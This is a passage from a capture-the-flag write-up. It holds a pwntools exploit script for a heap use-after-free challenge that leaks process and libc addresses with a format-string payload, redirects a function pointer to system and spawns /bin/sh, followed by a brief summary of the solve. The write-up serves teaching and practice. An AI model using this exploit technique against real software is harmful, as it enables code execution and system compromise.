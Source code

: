 ```python
    pause(time_)

create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
delete(1)  # -> call _puts
sh.recvuntil(b"b"*0x08)
proc_base = u64(sh.recvline()[:-1].ljust(8, b'\x00')) - 0x147C
print(hex(proc_base))
printf = proc_base + 0x150E
delete(0)

create(0x20, b'Nova%17$pNoir' + b'b'*(0x18-len(b'Nova%17$pNoir')) + p64(printf))
delete(1)
sh.recvuntil(b"Nova")

printf_addr = sh.recvuntil(b"Noir", drop=True)
printf_addr = int(printf_addr, 16) - 153
libc_base = printf_addr - 0x55810
system_addr = libc_base + 0x453a0
print(">>>", hex(printf_addr))
sh.sendline(b"")
sh.sendline(b"")

delete(0)
create(0x20, b'/bin/sh;' + b'b'*(0x18-len(b'/bin/sh;')) + p64(system_addr))
delete(1)
sh.interactive()
```

# Summary

This was a more comprehensive challenge involving `UAF`, which took around six to seven hours. I went through the `DynELF` documentation, spent a lot of time on `movaps`, but in the end, I solved it using a more conventional approach. Finally, we got it, cheers for that!


